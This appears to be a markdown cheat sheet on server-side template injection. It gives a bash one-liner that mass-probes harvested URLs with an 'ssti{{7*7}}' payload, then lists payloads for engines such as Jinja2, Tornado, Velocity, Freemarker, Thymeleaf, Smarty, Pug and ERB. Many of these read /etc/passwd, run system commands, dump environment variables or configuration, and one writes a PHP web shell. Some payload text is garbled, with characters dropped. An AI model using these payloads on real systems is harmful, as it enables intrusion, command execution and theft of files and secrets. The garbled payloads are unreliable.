## Multiple URL Test Payload:


```bash
cat urls.txt | gau -subs | grep '=' | egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)' | qsreplace "ssti{{ 7*7 }}" | while read url; do cur=$(curl -s "$url" | grep "ssti49"); echo -e "$url -> $cur"; done
```

1. `cat urls.txt`: This command is used to read the contents of the `urls.txt` file, which presumably contains a list of URLs to be tested.
2. `gau -subs`: This part of the command uses the `gau` tool with the `-subs` flag to discover URLs with subdomains.
3. `grep '='`: This command filters out URLs that contain the equal sign `=` symbol. This is used to find URLs that might have query parameters.
4. `egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)'`: This part filters out URLs that have specific file extensions like JavaScript, images, text, and so on. The idea here is to only test URLs that are likely to be vulnerable.
5. `qsreplace "ssti{{7*7}}"`: This command uses the `qsreplace` tool to replace the query parameter value with the payload `"ssti{{77}}"`. The payload `"ssti{{77}}"` is used to test for SSTI vulnerability by evaluating the expression `7*7` on the server side.
6. `while read url; do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur"; done`: This part loops through each URL from the filtered list, sends a request using `curl`, and then checks if the response contains `"ssti49"`. If `"ssti49"` is found in the response, it means the payload was successfully injected and evaluated, indicating a potential SSTI vulnerability.

**The OUTPUT shows that the URL "https://vulnerable.com/?s=ssti{{7*7}}" is vulnerable to SSTI, as the payload "ssti49" was successfully injected and evaluated.**

### Additional Payloads:

#### Polyglot:
- `{{$\{\{<['"}}\\}}`: Polyglot payload to test various template engines.

#### Jinja2 (Python):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`: Exploits Jinja2's code execution capabilities to read `/etc/passwd`.

#### Flask/Jinja2: Identify:
- `{{ '7' 7 }}`: Identifies Flask and Jinja2.
- `{% for c in [1,2,3] %}{{ (c,c,c) }}{% endfor %}`: Prints `c, c, c` for each loop iteration.

#### Tornado (Python):
- `{% import os %}{{ os.popen("ls").read() }}`: Lists files in the current directory.
- `{% import os %}{{ os.system('whoami') }}`: Executes 'whoami' command.

#### Django Template (Python):
- `{% debug %}`: Prints the context and variable values.

#### Handlebars (JavaScript):
- `{{7*7}}`: Evaluates `7*7` to `49`.

#### Express (Node.js):
- `#{7*7}`: Evaluates `7*7` to `49`.

#### EJS (JavaScript):
- `<% require('fs').readFileSync('/etc/passwd', 'utf-8') %>`: Reads `/etc/passwd` file.

#### AngularJS (with ng-bind):
- `<div ng-bind="7*7"></div>`: Evaluates `7*7` to `49`.

#### AngularJS:
- `{{7*7}}`: Evaluates `7*7` to `49`.
- `{{'ssti'+7*7}}`: Injects `'ssti'` followed by the result of `7*7`.

#### Pug (formerly Jade) (JavaScript):
- `p= 7*7`: Evaluates `7*7` to `49`.
- `#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}`: Reads `/etc/passwd` file.

#### EJS (JavaScript):
- `<%= 7*7 %>`: Evaluates `7*7` to `49`.

#### Nunjucks (JavaScript):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ 'ssti'+7*7 }}`: Injects `'ssti'` followed by the result of `7*7` = `ssti49`.

#### Java:
- `${{7*7}}`: Evaluates `7*7` to `49`.
- `${class.getClassLoader()}`: Gets the class loader.
- `${class.getResource("").getPath()}`: Gets the path of the current resource.
- `${class.getResource("../../../../../index.htm").getContent()}`: Gets the content of `index.htm` resource.
- `${T(java.lang.System).getenv()}`: Gets environment variables.
- `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes().join(" ")}`: Reads `/etc/passwd` file.

#### Velocity (Java):
- `#set($a=7*7)${a}`: Sets a Velocity variable 'a' to `49` and then outputs it.
- `#set($str = $class.inspect("java.lang.String").type)`: Gets the type of `java.lang.String` class.
- `#set($chr = $class.inspect("java.lang.Character").type)`: Gets the type of `java.lang.Character` class.
- `#set($ex = $class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))`: Executes 'whoami' command.
- `$ex.waitFor()`: Waits for the process to complete.
- `#set($out = $ex.getInputStream())`: Gets the input stream of the process.
- `#foreach($i in [1..$out.available()]) $str.valueOf($chr.toChars($out.read())) #end`: Reads output of process and converts to string.

#### Freemarker (Java):
- `<#assign a=7*7>${a}`: Assigns Freemarker variable 'a' to `49` and then outputs it.
- `#set($a = 7 * 7)${a}`: Sets a variable 'a' to `49` and outputs it.
- `<#assign command="freemarker.template.utility.Execute"?new()>${command("cat /etc/passwd")}`: Exploits Freemarker's code execution capabilities to read `/etc/passwd`.

#### Thymeleaf (Java):
- `[[${7*7}]]`: Evaluates `7*7` to `49`.
- `[[${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd').getInputStream().toString

()}]]`: Reads `/etc/passwd` file.

#### Smarty (PHP):
- `{$smarty.version}`: Prints the version of Smarty.
- `{$smarty.template_object}`: Prints the current template object.
- `{{7*7}}`: Evaluates `7*7` to `49`.
- `{php}echo "id";{/php}`: Executes 'id' command.
- `{Smarty_Internal_write_File::writeFile($SCRIPT_NAME, "<?php passthru($_GET['cmd']);?>", self::clearConfig())}`: Exploits Smarty's code execution capabilities to execute commands.

#### Slim (PHP):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ file_get_contents('/etc/passwd') }}`: Reads `/etc/passwd` file.

#### Twig (PHP):
- `{{ constant('STDIN') }}`: Prints the value of `STDIN` constant.
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ dump(app) }}`: Prints the entire Symfony application object.

#### Blade (Laravel):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ dd(config) }}`: Prints the entire Laravel configuration.

#### ERB (Ruby):
- `<%= 7*7 %>`: Evaluates `7*7` to `49`.
- `<%= system("whoami") %>`: Executes 'whoami' command.

#### ASP.NET Razor (C#):
- `@(7*7)`: Evaluates `7*7` to `49`.
- `@(1+2)`: Evaluates `1+2` to `3`.
- `@{ // C# code }`: C# code block.

#### Mojolicious (Perl):
- `<% perl code %>`: Executes Perl code.

#### Mustache:
- `{{{7*7}}}`: Evaluates `7*7` to `49`.
```

